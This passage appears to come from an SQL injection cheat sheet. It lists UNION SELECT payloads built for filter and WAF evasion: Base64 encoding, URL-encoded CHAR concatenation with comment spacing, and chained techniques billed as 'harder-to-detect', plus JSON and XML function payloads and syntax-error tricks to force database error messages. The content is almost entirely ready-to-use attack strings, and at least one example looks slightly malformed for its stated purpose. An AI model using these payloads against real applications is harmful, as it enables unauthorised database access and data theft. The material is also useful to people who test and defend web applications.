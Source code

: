 ### 6. Advanced Encoding Techniques

#### Base64 Encoding
- Encode payloads using Base64.
  ```sql
  ' UNION SELECT FROM_BASE64('c2VsZWN0IHZlcnNpb24oKQ==') --
  ```

#### Custom Encoding Scripts
- Create custom scripts to encode and decode payloads in different formats.

### 7. Chaining Techniques

#### Combining Multiple Bypass Techniques
- Use a combination of techniques to create a more complex and harder-to-detect payload.
  ```sql
  %27%20UNION/**/SELECT/**/CHAR(117)%7C%7CCHAR(115)%7C%7CCHAR(101)%7C%7CCHAR(114),%20CHAR(112)%7C%7CCHAR(97)%7C%7CCHAR(115)%7C%7CCHAR(115)%20--%0A
  ```

### 8. Leveraging Lesser-Known SQL Features

#### Using JSON Functions
- Leverage JSON functions to manipulate and extract data.
  ```sql
  ' UNION SELECT json_extract(column_name, '$.key') FROM table_name --
  ```

#### Using XML Functions
- Utilize XML functions to create more complex payloads.
  ```sql
  ' UNION SELECT extractvalue(1, 'version()') --
  ```
## Techniques to Force Errors from Databases for SQL Injection

Forcing errors in databases can help reveal valuable information about the underlying SQL queries, database structure, and sometimes even the data itself. Here are some advanced techniques to force errors from various databases:

### 1. Syntax Errors

#### Classic Syntax Error
- Introduce a deliberate syntax error to elicit an error message.
  ```sql
  ' OR 1=1; -- 
  ```

#### Unclosed Quotes
- Leave a quote unclosed to generate an error.
  ```sql
  ' OR 'a'='a
  ```
